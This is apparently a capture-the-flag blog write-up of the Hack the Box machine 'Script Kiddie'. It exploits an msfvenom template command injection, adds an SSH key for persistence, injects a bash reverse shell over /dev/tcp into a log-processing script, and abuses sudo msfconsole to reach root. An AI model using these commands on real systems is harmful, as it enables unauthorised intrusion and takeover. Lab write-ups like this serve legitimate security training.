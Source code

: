 +++
author = "Nick"
categories = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
date = 2021-06-05T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/05/scriptkiddie.png"
slug = "script-kiddie"
summary = "Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!"
tags = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
title = "Hack the Box - Script Kiddie"

+++


Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!

As always, we kick of our scans with `nmap` - `nmap -sC -sV -p- -oA allscan 10.10.10.226`.

Here are our results:
```
Nmap scan report for 10.10.10.226
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)5000/tcp  open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)|_http-server-header: Werkzeug/0.16.1 Python/3.8.5|_http-title: k1d'5 h4ck3r t00l559012/tcp filtered unknownService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There isn't much to go with. We see a webserver on port 5000 and that's about it. Let's take a look.

![](/images/2021/04/image.png)

We see a basic hacking tool interface. We can scan an IP address or create payloads. We have the ability to upload a payload template as well. We test out the page and sure enough it does generate some payloads. Some googling around leads us [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md). A MSF Venom template CVE and PoC.

We can find this template in `Metasploit`. If we search for `template` in `MSF` we see the module:

![](/images/2021/04/image-1.png)

We list out our `options`. We have pretty much the basics, an `lport` and `lhost`.

![](/images/2021/04/image-2.png)

We'll add our IP and port and generate the payload.

![](/images/2021/04/image-4.png)

We can even do the following to spin up an automatic payload handler within `MSF` if we want. I often do this, but in this case, we'll use `netcat`.

Command:
`msf6> set DisablePayloadHandler false`

Running the exploit shows us the path the file is saved. We'll copy out the payload and upload it to our web interface we found before. We also need to have a listener running.

Command:
`nc -lvnp 4444`

We can then set our localhost on the website to 127.0.0.1 and the platform to android.

![](/images/2021/05/image.png)

Once we hit generate, we should catch a connection back.

![](/images/2021/05/image-1.png)

Now we want to upgrade this shell. First, we check for `Python` and `Python3`.

Commands:
`which python`
`which python3`

![](/images/2021/05/image-2.png)

We see `Python3` installed so we'll [upgrade our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) with that.

Command:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now with a better shell connection, we can look around. This account does contant the `user.txt` flag, awesome! Now we can start enumerating for the `root.txt` flag. 

Next we want to find a better way tro stay connected. We can append our `ssh key` to the `authorized_keys` file for this user. First we'll want to make a new key with `ssh-keygen`.

Command:
`ssh-keygen`

We can copy the `id_rsa.pub` content into the `authorized_keys` file. Now we can just `ssh` into the box.

Command:
`ssh -i id_rsa kid@10.10.10.226`

Now that w're in, we don't even have to load `linenum.sh` or any other enumeration tools. We are able to manually access the `pwn` user account and freely look around to start.

Inside the `pwn` user account, we see a file called `scanlosers.sh` with the following code:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Can you spot the problem with this script? That's right, we can command injection into this. After some trial and error we find a command we can append the the `hackers` file to get a shell back.

Command:
`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.116/1234 0>&1' #" >> hackers`

We quickly see the shell returned as `pwn`.

![](/images/2021/05/image-3.png)

However, `pwn` cannot access `root.txt`. So we need to look around some more. Basic enumeration shows us that we can run `msfconsole` as root.

![](/images/2021/05/image-4.png)

Awesome, let's do that. When the console loads, we get a bunch of ioctl errors but when we check our ID, we are running as `root`.

![](/images/2021/05/image-5.png)

Now we can simply cat the `root.txt` flag!

![](/images/2021/05/image-6.png)

A nice easy box with some required research and trial / error.

If you found this write-up useful, send some respect my way:
https://app.hackthebox.eu/profile/95635



